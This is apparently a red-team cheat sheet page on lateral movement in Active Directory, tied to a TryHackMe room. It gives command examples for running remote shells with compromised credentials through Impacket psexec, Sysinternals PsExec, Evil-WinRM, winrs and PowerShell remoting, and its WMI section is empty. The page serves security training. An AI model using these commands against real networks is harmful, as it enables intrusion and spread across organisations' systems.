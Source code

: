 ```yaml
---
description: MITRE ATT&CK™ Sub-techniques T1558.001 and T1558.002
---
```


# Pivoting in Active Directory

## Theory

In a red team assesment you will have to pivot throught the network. You will find here some technics about that like

* **Spawn a process remotly**: with PsExec, WinRM, SC (Services), Scheduled Tasks 
* **WMI & Lateral Movement**: allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement
* **Alternate Authentication Material**: like NTLM or Kerberos Authentication


## Practice

### Spawn a process remotly
In this part, you will see various techniques, tools, for Active Directory enumeration. But you will consider that you already have compromise a initial account in the AD. 

#### PsExec

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) can exec a remote process.

```bash
psexec.py username:password@10.10.10.10 cmd.exe
```
{% endtab %}

{% tab title="Windows" %}
Psexec is one of many Sysinternals Tools and can be downloaded [here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec), It connect to the $ADMIN shares with SMB and upload a service binary. Psexec uses psexesvc.exe as the name. Then it connect to the service control manager to create and run a service named PSEXESVC associated with the previous binary. Finally Psexec create some named pipes to handle stdin/stdout/stderr.

```bash
#Run PsExec
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

{% endtab %}
{% endtabs %}

#### WinRm

Windows Remote Management (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely. Most Windows Server installations will have WinRM enabled by default, making it an attractive attack vector.

{% tabs %}
{% tab title="UNIX-like" %}
The [Evil-WinRm](https://github.com/Hackplayers/evil-winrm) can be used to obtain a winrm powershell session

```bash
evil-winrm -u user -p password -i 10.10.10.10
```
{% endtab %}

{% tab title="Windows" %}

We can use the WinRs binary

```bash
#Winrm Binary
winrs.exe -u:Administrator -p:Mypass123 -r:10.10.10.10 cmd
```
Or we can do the same with PowerShell

```bash
#Winrm Binary
#With PowerShell and PSCredential object
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

#Now we can create an interactive session or Invoke-Command remotly
#Interactive Session
Enter-PSSession -Computername TARGET -Credential $credential

#Invoke command remotly
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```

{% endtab %}
{% endtabs %}

### WMI & Lateral Movement



## References

{% embed url="https://tryhackme.com/room/lateralmovementandpivoting" %}
